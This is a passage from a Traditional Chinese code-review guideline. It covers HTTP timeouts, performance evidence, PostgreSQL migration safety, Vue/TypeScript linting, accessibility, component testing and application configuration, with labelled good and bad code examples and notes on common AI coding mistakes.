import org.springframework.web.client.RestClient;

@Configuration
public class PaymentClientConfig {

    /** HttpClient 自 Java 21 起實作 AutoCloseable；宣告為 Bean，由 Spring 在關閉時呼叫 close()（CR-COR-013）。 */
    @Bean
    HttpClient paymentHttpClient() {
        return HttpClient.newBuilder()
                .connectTimeout(Duration.ofSeconds(2))
                .build();
    }

    @Bean
    RestClient paymentRestClient(HttpClient paymentHttpClient, @Value("${payment.base-url}") String baseUrl) {
        JdkClientHttpRequestFactory factory = new JdkClientHttpRequestFactory(paymentHttpClient);
        factory.setReadTimeout(Duration.ofSeconds(3));
        return RestClient.builder()
                .baseUrl(baseUrl)
                .requestFactory(factory)
                .build();
    }
}
```

```java
// ❌ CR-PRF-004：沒有任何逾時設定的 HTTP 用戶端；下游服務掛住時，呼叫端的執行緒也被無限期佔住
RestClient client = RestClient.create("https://payment.internal");
```

（片段：只截取一行。）

#### 🔍 12.4 審查與驗證

- **自動檢查：** 整合測試以 WireMock 的 `withFixedDelay` 模擬下游延遲，確認呼叫在逾時後失敗並得到預期的錯誤。
- **人工審查問題：**
  1. 每個新的外部呼叫有沒有逾時？逾時值是否小於上游呼叫者的逾時？
  2. 重試的操作是冪等的嗎？（重試「扣款」可能重複扣款）
- **AI 常見錯誤：** AI 建立的 HTTP 用戶端幾乎都沒有逾時；加入重試時常沒有上限或沒有退避，對非冪等的 POST 也重試。

### 12.5 效能宣稱需要證據

審查中常見「這樣寫比較快」、「改完效能提升 60%」這類宣稱。沒有量測方法的效能宣稱無法被審查，也無法在未來被驗證。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRF-005` | 應該 | 以效能為理由的變更（或拒絕某個寫法），應附上量測方法與數據：微基準以 JMH，API 以 k6 或 Gatling，查詢以 `EXPLAIN ANALYZE`；量測環境與資料量必須寫明 | 👁 PR 描述中的量測紀錄 |

```markdown
<!-- ✅ CR-PRF-005：效能變更附上量測方法與數據 -->
## 如何驗證（效能）
- 環境：staging（2 vCPU／4 GB），PostgreSQL 18，orders 120 萬筆、order_lines 380 萬筆
- 方法：k6，20 個虛擬使用者，持續 5 分鐘，`GET /api/orders?size=20`
- 結果（P95）：修改前 840 ms（每次請求 21 個 SQL）→ 修改後 95 ms（每次請求 2 個 SQL）
- 原始報告：附件 k6-summary-before.json、k6-summary-after.json
```

```text
❌ CR-PRF-005：沒有證據的效能宣稱
@kevin：關於效能問題，我採用了你建議的批次查詢方式。測試結果顯示效能提升了約 60%。
→ 什麼測試？多少資料？量測的是什麼？v2.0 的「良好回應範例」正是這種寫法，審查者無法驗證。
```

#### 🔍 12.5 審查與驗證

- **自動檢查：** 關鍵 API 的效能測試可以在每晚的 CI 中執行，與基準值比較（見測試與品質保證指引第 12 章）。
- **人工審查問題：**
  1. 量測的資料量接近正式環境嗎？
  2. 改善的是平均值還是 P95／P99？使用者感受到的通常是尾端延遲。
- **AI 常見錯誤：** AI 常宣稱某種寫法「效能更好」（例如 `for` 比 `stream` 快、`StringBuilder` 一定比 `+` 快），但在現代 JVM 上差異通常可以忽略；AI 也可能捏造具體的百分比。

## 13. 審查重點：資料庫與資料遷移

資料庫變更是最難回滾的變更：程式碼可以重新部署舊版，但已經刪除的欄位、已經轉換的資料無法還原。資料庫變更也最容易在正式環境才出問題：開發環境 100 筆資料的 `ALTER TABLE` 一瞬間完成，正式環境 5,000 萬筆可能鎖表數十分鐘。完整的資料庫設計規範見 [資料庫設計指引]()；本章範例以 PostgreSQL 18 撰寫並實際執行過（見附錄 F.3）。

### 13.1 遷移腳本的管理

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DB-001` | 必須 | 結構變更只能透過遷移工具（Flyway、Liquibase）的版本化腳本進行；已經在任何共用環境執行過的遷移腳本不得修改，修正必須以新的腳本進行 | 🤖 Flyway `validate`（checksum 不符時失敗）；🤖 CODEOWNERS 指定 DBA 審查遷移目錄 |
| `CR-DB-002` | 必須 | 遷移腳本的檔名必須遵循工具的命名規則（Flyway：`V<版本>__<描述>.sql`），版本號不得與其他分支衝突；建議以時間戳記作為版本號 | 🤖 Flyway `validate`；🤖 CI 檢查檔名格式 |

```text
✅ CR-DB-002：以時間戳記作為版本號，兩個分支同時新增遷移也不會衝突
src/main/resources/db/migration/
  V2026_10_01_0930__create_orders.sql
  V2026_10_06_1015__add_cancel_reason.sql
  V2026_10_06_1016__index_orders_customer_status.sql
```

```text
❌ CR-DB-001：修改已在 staging 執行過的遷移腳本
PR #1040
  M  src/main/resources/db/migration/V2026_10_06_1015__add_cancel_reason.sql
-ALTER TABLE orders ADD COLUMN cancel_reason varchar(100);
+ALTER TABLE orders ADD COLUMN cancel_reason varchar(200);
→ staging 部署時 Flyway validate 失敗（checksum mismatch）；應新增 V..._alter_cancel_reason_length.sql。
```

#### 🔍 13.1 審查與驗證

- **自動檢查：** CI 以 `./mvnw flyway:validate` 或在整合測試中啟動 Flyway，比對腳本 checksum；以 `git diff --name-status origin/main...HEAD -- src/main/resources/db/migration` 找出被修改（`M`）而非新增（`A`）的遷移腳本。
- **人工審查問題：**
  1. 這個 PR 有沒有修改（而不是新增）遷移腳本？
  2. 版本號是否晚於目前主幹上最新的遷移？
- **AI 常見錯誤：** AI 修正資料庫結構時，常直接修改既有的遷移腳本（因為那樣「最乾淨」）；也常以 `spring.jpa.hibernate.ddl-auto=update` 取代遷移工具。

### 13.2 向後相容：擴充與收縮

滾動部署（rolling deployment）期間，新舊版本的程式會同時存取同一個資料庫。若新版的遷移刪除或改名了舊版仍在使用的欄位，舊版的程式會立刻出錯。解法是把破壞性變更拆成多次部署的**擴充與收縮**（expand and contract）：

| 階段 | 資料庫變更 | 程式碼 | 可以回滾嗎 |
| --- | --- | --- | --- |
| 1. 擴充 | 新增欄位（可為 null 或有預設值） | 同時寫入新舊欄位，讀取舊欄位 | ✅ |
| 2. 回填 | 分批把舊資料複製到新欄位 | 不變 | ✅ |
| 3. 切換 | 新欄位加上約束 | 改為讀取新欄位，仍寫入舊欄位 | ✅ |
| 4. 收縮 | 刪除舊欄位（至少一個版本之後） | 不再使用舊欄位 | ⚠️ 舊欄位的資料已遺失 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DB-003` | 必須 | 資料庫遷移必須與「前一版的程式碼」相容：同一次部署中不得刪除、改名或改變型別於前一版仍在使用的欄位與表格；破壞性變更必須以擴充與收縮的方式分多次部署 | 🧪 以前一版程式碼搭配新結構執行整合測試；👁 DBA 審查 |

```sql
-- ✅ CR-DB-003：擴充階段，新增可為 null 的欄位；舊版程式不知道這個欄位也能正常運作
-- V2026_10_06_1015__add_cancel_reason.sql
ALTER TABLE orders ADD COLUMN cancel_reason varchar(200);
```

```sql
-- ✅ CR-DB-003：回填階段，每次只更新 1 萬筆，避免單一交易鎖住大量資料列；由維運腳本重複執行，直到影響筆數為 0
UPDATE orders
SET cancel_reason = '（v2 之前取消，未記錄原因）'
WHERE id IN (
    SELECT id FROM orders
    WHERE status = 'CANCELLED' AND cancel_reason IS NULL
    LIMIT 10000
);
```

```sql
-- ❌ CR-DB-003：在同一次部署中改名欄位；滾動部署期間，舊版程式查詢 note 欄位會失敗
-- V2026_10_06_1015__rename_note.sql
ALTER TABLE orders RENAME COLUMN note TO cancel_reason;
```

#### 🔍 13.2 審查與驗證

- **自動檢查：** 在 CI 中以「新的遷移＋前一個發行版本的程式碼」執行整合測試，可以自動發現不相容的變更。
- **人工審查問題：**
  1. 這個遷移套用後，目前正在執行的舊版程式還能正常運作嗎？
  2. 有 `DROP COLUMN`、`RENAME`、`ALTER ... TYPE` 嗎？是否屬於收縮階段，且前一版程式已不再使用？
- **AI 常見錯誤：** AI 處理「欄位改名」時幾乎都會直接 `RENAME COLUMN`，並同時修改程式碼，在單體部署的開發環境完全正常，在滾動部署時才失敗。

### 13.3 鎖與線上變更

PostgreSQL 的部分 DDL 需要 `ACCESS EXCLUSIVE` 鎖：持有期間，所有對該表的讀寫都會被阻擋；更糟的是，DDL 在等待鎖時也會擋住排在它後面的查詢。審查遷移時要知道哪些操作是「快的」、哪些會重寫整張表或長時間持有鎖：

| 操作（PostgreSQL 11 以上） | 是否快速 | 安全的寫法 |
| --- | --- | --- |
| 新增可為 null 的欄位 | ✅ 只改目錄 | 直接執行 |
| 新增有常數預設值的欄位 | ✅ 只改目錄 | 直接執行 |
| 新增 `NOT NULL` 約束 | ❌ 需掃描全表並持有鎖 | 先 `CHECK (...) NOT VALID`，再 `VALIDATE CONSTRAINT` |
| 新增外鍵 | ❌ 需掃描全表 | 先 `NOT VALID`，再 `VALIDATE CONSTRAINT` |
| 建立索引 | ❌ 期間阻擋寫入 | `CREATE INDEX CONCURRENTLY`（不能在交易中執行） |
| 改變欄位型別（例如 `int` 改 `bigint`） | ❌ 重寫整張表 | 擴充與收縮：新增欄位、回填、切換 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DB-004` | 必須 | 對大型資料表（建議門檻：100 萬筆以上）的遷移必須使用不阻擋讀寫的寫法：索引以 `CREATE INDEX CONCURRENTLY` 建立，約束以 `NOT VALID` 加上 `VALIDATE CONSTRAINT` 分兩步驟；遷移應設定 `lock_timeout`，避免等待鎖時阻擋其他查詢 | 🧪 在有正式規模資料的環境演練；👁 DBA 審查 |

```sql
-- ✅ CR-DB-004：分兩步驟加上非空約束，第一步只短暫持有鎖，第二步驗證時不阻擋讀寫
-- V2026_10_20_0900__cancel_reason_required_when_cancelled.sql
SET lock_timeout = '3s';
ALTER TABLE orders
    ADD CONSTRAINT ck_orders_cancel_reason
    CHECK (status <> 'CANCELLED' OR cancel_reason IS NOT NULL) NOT VALID;
ALTER TABLE orders VALIDATE CONSTRAINT ck_orders_cancel_reason;
```

```sql
-- ✅ CR-DB-004：索引以 CONCURRENTLY 建立；必須單獨放在一個遷移檔，並設定為不在交易中執行
-- V2026_10_06_1016__index_orders_customer_status.sql
-- （搭配 V2026_10_06_1016__index_orders_customer_status.sql.conf，內容為 executeInTransaction=false）
CREATE INDEX CONCURRENTLY IF NOT EXISTS idx_orders_customer_status
    ON orders (customer_id, status);
```

```sql
-- ❌ CR-DB-004：在大型資料表上直接建立索引與非空約束，執行期間阻擋所有寫入
CREATE INDEX idx_orders_created_at ON orders (created_at);
ALTER TABLE orders ALTER COLUMN cancel_reason SET NOT NULL;
```

#### 🔍 13.3 審查與驗證

- **自動檢查：** 可以用 squawk 等 PostgreSQL 遷移 linter 在 CI 檢查 `CREATE INDEX` 缺少 `CONCURRENTLY`、新增 `NOT NULL` 等危險操作。
- **人工審查問題：**
  1. 這張表在正式環境有多大？遷移在正式規模的資料上執行要多久？
  2. 遷移有設定 `lock_timeout` 嗎？失敗時能安全重試嗎？（`CONCURRENTLY` 失敗會留下 `INVALID` 的索引，需要先刪除）
- **AI 常見錯誤：** AI 產生的遷移幾乎不會使用 `CONCURRENTLY` 或 `NOT VALID`；把 `CREATE INDEX CONCURRENTLY` 和其他 DDL 放在同一個（交易中的）遷移檔，會直接執行失敗。

### 13.4 新查詢與索引

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DB-005` | 應該 | 新增或修改的查詢若作用在大型資料表，PR 應附上以接近正式規模資料執行的 `EXPLAIN (ANALYZE, BUFFERS)` 結果，並確認使用了預期的索引；新增的索引應說明支援哪些查詢 | 👁 PR 描述中的執行計畫 |

```sql
-- ✅ CR-DB-005：附上執行計畫，確認 11.3 的 OrderSearchDao 查詢使用 idx_orders_customer_status
EXPLAIN (ANALYZE, BUFFERS)
SELECT id, status, amount
FROM orders
WHERE customer_id = 1001 AND status = 'PAID'
ORDER BY created_at DESC
LIMIT 20;
```

```text
✅ CR-DB-005：PR 描述中附上的執行計畫（本機 PostgreSQL 18.6，orders 120 萬筆、6 萬位顧客；實測輸出，見附錄 F.3）
 Limit  (cost=24.56..24.57 rows=5 width=29) (actual time=0.223..0.224 rows=5.00 loops=1)
   Buffers: shared hit=12 read=2
   ->  Sort  (cost=24.56..24.57 rows=5 width=29) (actual time=0.220..0.221 rows=5.00 loops=1)
         Sort Key: created_at DESC
         Sort Method: quicksort  Memory: 25kB
         ->  Index Scan using idx_orders_customer_status on orders  (cost=0.43..24.50 rows=5 width=29) (actual time=0.136..0.190 rows=5.00 loops=1)
               Index Cond: ((customer_id = 1001) AND ((status)::text = 'PAID'::text))
               Index Searches: 1
 Planning Time: 2.667 ms
 Execution Time: 0.267 ms
```

（PostgreSQL 18 的 `EXPLAIN ANALYZE` 會顯示小數的 `rows`、`Index Searches` 欄位，並預設包含 `BUFFERS`。若同一位顧客的某個狀態有數千筆訂單，`Sort` 的成本會變高，這時應考慮把 `created_at` 加入索引：`(customer_id, status, created_at DESC)`。）

#### 🔍 13.4 審查與驗證

- **自動檢查：** 可以在 CI 的整合測試中以 `auto_explain` 記錄超過門檻的查詢計畫；正式環境以 `pg_stat_statements` 監控新查詢。
- **人工審查問題：**
  1. 執行計畫中有沒有大型資料表的 `Seq Scan`？
  2. 新索引的欄位順序是否符合查詢條件（等值條件在前、範圍或排序在後）？
  3. 新增索引會不會讓寫入變慢？這張表的寫入頻率多高？
- **AI 常見錯誤：** AI 常為每個查詢條件各建一個單欄索引，而不是建立符合查詢的複合索引；也常在 10 筆資料的開發資料庫執行 `EXPLAIN` 後宣稱「已使用索引」（資料量小時，規劃器常選擇全表掃描，或結果不具代表性）。

## 14. 審查重點：前端、UI 與無障礙

前端程式碼的審查有兩個特別之處：第一，很多問題只有**實際操作畫面**才看得出來（版面、鍵盤操作、載入狀態）；第二，前端的錯誤直接面對使用者，包括使用輔助科技的使用者。完整的前端規範見 [前端開發指引]()；本章範例以 Vue 3.5、TypeScript 與 Tailwind CSS 撰寫，並以 ESLint 10、vue-tsc 與 Vitest 實際檢查過（見附錄 F.3）。

### 14.1 TypeScript 與 lint 設定

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-FE-001` | 必須 | TypeScript 必須啟用 `strict`；不得使用 `any`（需要時使用 `unknown` 並收窄型別），不得以 `// @ts-ignore` 略過型別錯誤（確有必要時使用 `// @ts-expect-error` 並說明原因） | 🤖 `vue-tsc --noEmit`；🤖 typescript-eslint `no-explicit-any`、`ban-ts-comment` |
| `CR-FE-002` | 必須 | lint 設定必須放在程式庫中並在 CI 執行；ESLint 9 以上必須使用 flat config（`eslint.config.mjs`），ESLint 10 已不支援 `.eslintrc.*` | 🤖 CI 執行 `eslint .`；👁 審查 lint 設定的變更 |

```ts
// ✅ CR-FE-001：以 unknown 接收外部資料，以型別守衛收窄後才使用
export interface ProblemDetail {
  code: string;
  detail: string;
}

function isProblemDetail(value: unknown): value is ProblemDetail {
  if (typeof value !== 'object' || value === null) {
    return false;
  }
  const record = value as Record<string, unknown>;
  return typeof record.code === 'string' && typeof record.detail === 'string';
}

export async function readProblem(res: Response): Promise<ProblemDetail | null> {
  const body: unknown = await res.json();
  return isProblemDetail(body) ? body : null;
}
```

```ts
// ❌ CR-FE-001：以 any 接收、以 @ts-ignore 略過型別錯誤；伺服器回應格式改變時，錯誤要到執行期才出現
export async function readProblem(res: Response): Promise<any> {
  const body: any = await res.json();
  // @ts-ignore
  return body.code.toUpperCase();
}
```

```js
// ✅ CR-FE-002：eslint.config.mjs（ESLint 10 flat config；Vue＋TypeScript＋無障礙＋Prettier）
import js from '@eslint/js';
import { defineConfig } from 'eslint/config';
import eslintConfigPrettier from 'eslint-config-prettier/flat';
import pluginVue from 'eslint-plugin-vue';
import vueA11y from 'eslint-plugin-vuejs-accessibility';
import globals from 'globals';
import tseslint from 'typescript-eslint';

export default defineConfig([
  { ignores: ['dist/**', 'coverage/**'] },
  js.configs.recommended,
  tseslint.configs.strict,
  pluginVue.configs['flat/recommended'],
  vueA11y.configs['flat/recommended'],
  {
    files: ['**/*.vue'],
    languageOptions: { parserOptions: { parser: tseslint.parser } },
  },
  {
    languageOptions: { globals: { ...globals.browser } },
    rules: {
      'no-console': ['error', { allow: ['warn', 'error'] }],
      'no-debugger': 'error',
      '@typescript-eslint/no-explicit-any': 'error',
      'vue/no-v-html': 'error',
      // 預設要求 label 同時包住欄位「且」以 for 指向欄位；兩者擇一即符合 WCAG
      'vuejs-accessibility/label-has-for': ['error', { required: { some: ['nesting', 'id'] } }],
    },
  },
  eslintConfigPrettier,
]);
```

```js
// ❌ CR-FE-002：v2.0 的 .eslintrc.js；ESLint 10 不再讀取這個檔案，而且 extends 名稱錯誤
// （應為 'plugin:@typescript-eslint/recommended'），舊版 ESLint 也會因此無法載入設定
module.exports = {
  extends: [
    'eslint:recommended',
    '@typescript-eslint/recommended',
    '@vue/typescript/recommended',
    'prettier',
  ],
  rules: {
    'no-console': 'warn',
    '@typescript-eslint/no-explicit-any': 'warn',
  },
};
```

#### 🔍 14.1 審查與驗證

- **自動檢查：** CI 執行 `npx eslint .` 與 `npx vue-tsc --noEmit`；兩者都必須是必要檢查。
- **人工審查問題：**
  1. PR 是否修改了 `eslint.config.mjs`、`tsconfig.json`？是放寬了規則（例如把 `error` 改成 `warn`、關閉 `strict`）嗎？
  2. 新增的 `eslint-disable`、`@ts-expect-error` 有沒有說明原因？
- **AI 常見錯誤：** AI 產生的 ESLint 設定經常還是 `.eslintrc` 格式，或混用 flat config 與舊的 `extends` 字串；遇到型別錯誤時常以 `as any` 或 `// @ts-ignore` 解決。

### 14.2 元件設計、狀態與非同步

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-FE-003` | 應該 | 元件的 props 與 emits 必須以 TypeScript 宣告型別（`defineProps<...>()`、`defineEmits<...>()`）；元件只負責一件事，超過 300 行的元件應考慮拆分 | 🤖 vue-tsc；🤖 `vue/require-explicit-emits`；👁 程式碼審查 |
| `CR-FE-004` | 必須 | 非同步操作必須處理載入中、成功、失敗三種狀態，並防止重複送出；錯誤訊息必須讓使用者知道發生什麼事與下一步，不得只在主控台輸出 | 🧪 元件測試（14.4）；👁 實際操作 |

```vue
<!-- ✅ CR-FE-003、CR-FE-004、CR-FE-005：OrderCancelDialog.vue -->
<script setup lang="ts">
import { computed, ref } from 'vue';

const MAX_LENGTH = 200;

const props = defineProps<{ orderId: number }>();
const emit = defineEmits<{ cancelled: [orderId: number] }>();

const reason = ref('');
const submitting = ref(false);
const errorMessage = ref<string | null>(null);
const remaining = computed(() => MAX_LENGTH - reason.value.length);

async function submit(): Promise<void> {
  if (submitting.value) {
    return;
  }
  errorMessage.value = null;
  submitting.value = true;
  try {
    const res = await fetch(`/api/orders/${props.orderId}/cancel`, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ reason: reason.value.trim() }),
    });
    if (!res.ok) {
      errorMessage.value =
        res.status === 409 ? '這張訂單已出貨或已取消，無法取消。' : '取消失敗，請稍後再試。';
      return;
    }
    emit('cancelled', props.orderId);
  } catch {
    errorMessage.value = '網路連線失敗，請檢查網路後再試一次。';
  } finally {
    submitting.value = false;
  }
}
</script>

<template>
  <form class="space-y-4" @submit.prevent="submit">
    <label for="cancel-reason" class="block text-sm font-medium text-gray-900">取消原因</label>
    <textarea
      id="cancel-reason"
      v-model="reason"
      :maxlength="MAX_LENGTH"
      required
      aria-describedby="cancel-reason-hint"
      class="w-full rounded border border-gray-500 p-2 focus:outline-2 focus:outline-blue-700"
    />
    <p id="cancel-reason-hint" class="text-sm text-gray-700">還可以輸入 {{ remaining }} 字</p>
    <p v-if="errorMessage" role="alert" class="text-sm text-red-700">{{ errorMessage }}</p>
    <button
      type="submit"
      :disabled="submitting || reason.trim() === ''"
      class="min-h-11 min-w-11 rounded bg-red-700 px-4 py-2 text-white disabled:opacity-50"
    >
      {{ submitting ? '處理中…' : '確認取消' }}
    </button>
  </form>
</template>
```

```vue
<!-- ❌ CR-FE-004、CR-FE-005：沒有標籤、以 div 當按鈕、可以重複送出、錯誤只印在主控台、v-html 輸出伺服器訊息 -->
<script setup lang="ts">
import { ref } from 'vue';

const props = defineProps<{ orderId: number }>();
const reason = ref('');
const message = ref<any>('');

async function submit() {
  try {
    const res = await fetch(`/api/orders/${props.orderId}/cancel`, {
      method: 'POST',
      body: JSON.stringify({ reason: reason.value }),
    });
    message.value = await res.text();
  } catch (e) {
    console.log(e);
  }
}
</script>

<template>
  <div>
    <textarea v-model="reason" placeholder="取消原因"></textarea>
    <div class="btn" @click="submit">確認</div>
    <div v-html="message"></div>
  </div>
</template>
```

#### 🔍 14.2 審查與驗證

- **自動檢查：** vue-tsc 檢查 props 與 emits 的型別；ESLint 的 `vue/no-v-html`、`no-console`、`@typescript-eslint/no-explicit-any`（附錄 F.3 以本節的 ❌ 範例確認全部會觸發）。
- **人工審查問題：**
  1. 按鈕連點兩次會送出兩個請求嗎？
  2. API 失敗、網路斷線、回應很慢時，畫面分別會顯示什麼？
  3. 元件卸載後，非同步回應回來時會不會更新已不存在的狀態？
- **AI 常見錯誤：** AI 產生的元件最常遺漏載入中與錯誤狀態、不防止重複送出，並以 `console.log(error)` 處理錯誤；也常以 `<div @click>` 代替 `<button>`。

### 14.3 無障礙（WCAG 2.2）

無障礙不是額外的功能，而是品質的一部分；政府網站與許多企業也有法規或合約上的要求。[WCAG 2.2](https://www.w3.org/TR/WCAG22/)（2023-10 發布，2024-12 更新）新增了九個成功準則，其中與程式碼審查最相關的是：**2.4.11 焦點不被遮蔽**（Focus Not Obscured，AA）、**2.5.8 目標尺寸最小值**（Target Size Minimum，AA：至少 24×24 CSS 像素）、**3.3.7 重複輸入**（Redundant Entry，A）與 **3.3.8 無障礙驗證**（Accessible Authentication，AA）。

| 檢查項目 | 審查時看什麼 | 工具能抓到嗎 |
| --- | --- | --- |
| 表單欄位有標籤 | `<label for>` 或 `aria-label`；只有 `placeholder` 不算 | ✅ `vuejs-accessibility/form-control-has-label` |
| 互動元素可用鍵盤操作 | 使用 `<button>`、`<a href>`；不要用 `<div @click>` | ✅ `click-events-have-key-events`、`no-static-element-interactions` |
| 圖片有替代文字 | 有意義的圖片有 `alt`；裝飾圖片 `alt=""` | ✅ `alt-text` |
| 錯誤訊息能被讀出 | `role="alert"` 或 `aria-live` | ⚠️ 部分 |
| 色彩對比 | 一般文字至少 4.5:1 | ⚠️ axe 可以在執行時檢查 |
| 目標尺寸 | 按鈕至少 24×24 CSS 像素（建議 44×44） | ❌ 需人工或視覺測試 |
| 焦點可見且不被遮蔽 | 焦點樣式沒有被 `outline: none` 移除；不被固定的頁首遮住 | ❌ 需實際操作 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-FE-005` | 必須 | UI 變更必須符合 WCAG 2.2 AA：表單欄位有標籤、互動元素可用鍵盤操作、錯誤訊息能被輔助科技讀出、按鈕的目標尺寸至少 24×24 CSS 像素；審查者應以鍵盤實際操作一次新的互動流程 | 🤖 eslint-plugin-vuejs-accessibility；🤖 axe-core（E2E 測試中）；👁 鍵盤操作 |

```text
❌ CR-FE-005：ESLint 對 14.2 的 ❌ 範例回報的無障礙問題（實際執行結果摘錄，完整紀錄見附錄 F.3）
  vuejs-accessibility/form-control-has-label        textarea 只有 placeholder，沒有標籤
  vuejs-accessibility/click-events-have-key-events  div 有 click 卻沒有鍵盤事件
  vuejs-accessibility/no-static-element-interactions div 不是互動元素卻綁定事件
```

#### 🔍 14.3 審查與驗證

- **自動檢查：** eslint-plugin-vuejs-accessibility 在 lint 階段檢查；E2E 測試中以 `@axe-core/playwright` 檢查對比與 ARIA（見測試與品質保證指引第 11.4 節）。
- **人工審查問題：**
  1. 只用鍵盤（Tab、Shift+Tab、Enter、Space、Esc）能完成這個流程嗎？焦點順序合理嗎？
  2. 錯誤發生時，螢幕閱讀器會讀出錯誤訊息嗎？
  3. 手機上的按鈕夠大嗎？
- **AI 常見錯誤：** AI 常以 `placeholder` 代替 `<label>`、以 `<div>` 或 `<span>` 做按鈕、加上 `outline-none` 移除焦點樣式卻沒有替代樣式；也常濫用 `aria-*` 屬性（例如在 `<button>` 上加 `role="button"`）。

### 14.4 前端測試

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-FE-006` | 應該 | 元件應有元件測試，以使用者看得到的東西（標籤、文字、角色）找元素並驗證行為，而不是檢查內部狀態或 CSS 類別；成功與失敗的情境都要測 | 🧪 Vitest＋Vue Test Utils |

```ts
// ✅ CR-FE-006：OrderCancelDialog.spec.ts（Vitest＋Vue Test Utils），涵蓋成功與 409 兩種情境
import { flushPromises, mount } from '@vue/test-utils';
import { afterEach, describe, expect, it, vi } from 'vitest';
import OrderCancelDialog from './OrderCancelDialog.vue';

describe('OrderCancelDialog', () => {
  afterEach(() => {
    vi.unstubAllGlobals();
  });

  it('送出原因後發出 cancelled 事件', async () => {
    const fetchMock = vi.fn().mockResolvedValue(new Response(null, { status: 204 }));
    vi.stubGlobal('fetch', fetchMock);
    const wrapper = mount(OrderCancelDialog, { props: { orderId: 42 } });

    await wrapper.get('textarea#cancel-reason').setValue('客戶重複下單');
    await wrapper.get('form').trigger('submit');
    await flushPromises();

    expect(fetchMock).toHaveBeenCalledWith('/api/orders/42/cancel', expect.objectContaining({ method: 'POST' }));
    expect(wrapper.emitted('cancelled')).toEqual([[42]]);
  });

  it('已出貨時顯示可讀出的錯誤訊息，且不發出事件', async () => {
    vi.stubGlobal('fetch', vi.fn().mockResolvedValue(new Response(null, { status: 409 })));
    const wrapper = mount(OrderCancelDialog, { props: { orderId: 42 } });

    await wrapper.get('textarea#cancel-reason').setValue('太慢了');
    await wrapper.get('form').trigger('submit');
    await flushPromises();

    expect(wrapper.get('[role="alert"]').text()).toContain('已出貨');
    expect(wrapper.emitted('cancelled')).toBeUndefined();
  });

  it('沒有輸入原因時無法送出', () => {
    const wrapper = mount(OrderCancelDialog, { props: { orderId: 42 } });

    expect(wrapper.get('button[type="submit"]').attributes('disabled')).toBeDefined();
  });
});
```

```ts
// ❌ CR-FE-006：檢查內部狀態與 CSS 類別，不檢查使用者看到的結果；也沒有測試失敗情境
it('works', async () => {
  const wrapper = mount(OrderCancelDialog, { props: { orderId: 42 } });
  (wrapper.vm as any).reason = 'x';
  expect(wrapper.find('.bg-red-700').exists()).toBe(true);
});
```

（片段：只截取一個測試案例。v2.0 以 Jest 撰寫的元件測試在 Vite 專案中應改用 Vitest，API 大致相容。）

#### 🔍 14.4 審查與驗證

- **自動檢查：** `npx vitest run` 為必要檢查；覆蓋率以 `@vitest/coverage-v8` 產生。
- **人工審查問題：**
  1. 測試是以使用者的角度操作（輸入、點擊、看到文字），還是直接修改元件內部狀態？
  2. 錯誤情境（API 失敗、驗證失敗）有測試嗎？
- **AI 常見錯誤：** AI 產生的元件測試常以 `wrapper.vm` 直接設定內部狀態、以 CSS 類別判斷結果，或只做「快照測試」而沒有任何行為斷言；快照更新時審查者很難判斷變更是否正確。

### 14.5 UI 變更的審查

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-FE-007` | 應該 | UI 變更的 PR 應附上變更前後的截圖或短片（含窄螢幕與錯誤狀態）；有預覽環境時，審查者應在預覽環境實際操作 | 👁 PR 描述；🤖 視覺回歸測試（例如 Playwright 的 `toHaveScreenshot`） |
| `CR-FE-008` | 應該 | 樣式應使用設計系統的 Tailwind 主題變數（顏色、間距、字級），不應大量使用任意值（例如 `text-[13px]`、`bg-[#e11d48]`） | 👁 程式碼審查；🤖 可用 Stylelint 或自訂 ESLint 規則限制任意值 |

```markdown
<!-- ✅ CR-FE-007：UI 變更附上前後截圖與窄螢幕畫面 -->
## 如何驗證（UI）
| 情境 | 變更前 | 變更後 |
| --- | --- | --- |
| 桌面版 |  |  |
| 375px 窄螢幕 |  |  |
| 409 錯誤 | （無） |  |

鍵盤操作：Tab 依序到「取消原因」→「確認取消」，Enter 可送出，錯誤訊息由 NVDA 讀出（Windows 11＋Firefox）。
```

```vue
<!-- ❌ CR-FE-008：大量任意值，繞過設計系統（片段：只截取 template） -->
<button class="h-[37px] bg-[#e11d48] px-[13px] text-[13px] text-[#fff]">確認取消</button>
```

（片段：只截取一個元素。）

#### 🔍 14.5 審查與驗證

- **自動檢查：** Playwright 的視覺比對（`expect(page).toHaveScreenshot()`）可以發現非預期的版面變化；但截圖更新需要人工確認。
- **人工審查問題：**
  1. 有截圖嗎？截圖涵蓋窄螢幕、長文字、錯誤與空狀態嗎？
  2. 顏色、間距、字級是否來自設計系統？
- **AI 常見錯誤：** AI 依照設計稿產生 Tailwind 程式碼時，常大量使用任意值精確還原像素，而不是使用設計系統的變數；也常忽略深色模式、窄螢幕與長文字的情況。

## 15. 審查重點：設定、CI／CD 與相依套件

設定檔、CI 工作流程與相依套件的變更常被視為「不是程式碼」而審查得很草率，但它們的影響範圍往往比程式碼更大：一行 `permissions: write-all` 讓任何進入 CI 的程式碼都能修改程式庫；一個名稱拼錯的套件可能是攻擊者預先註冊的惡意套件。OWASP Top 10:2025 把「軟體供應鏈失效」列為第三名（A03）。

### 15.1 應用程式設定

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CFG-001` | 必須 | 正式環境的設定不得開啟除錯功能或公開管理端點：Actuator 只公開 `health` 與 `info`（其餘需認證）、錯誤回應不含堆疊追蹤、日誌等級不為 `DEBUG`／`TRACE`；設定差異應以 profile 或環境變數區分，不得以程式碼中的 `if (dev)` 判斷 | 🧪 以 prod profile 啟動的設定測試；👁 審查設定檔的 diff |

```yaml
# ✅ CR-CFG-001：application-prod.yml，只公開必要的 Actuator 端點，不回傳堆疊追蹤
management:
  endpoints:
    web:
      exposure:
        include: health,info
  endpoint:
    health:
      show-details: never
server:
  error:
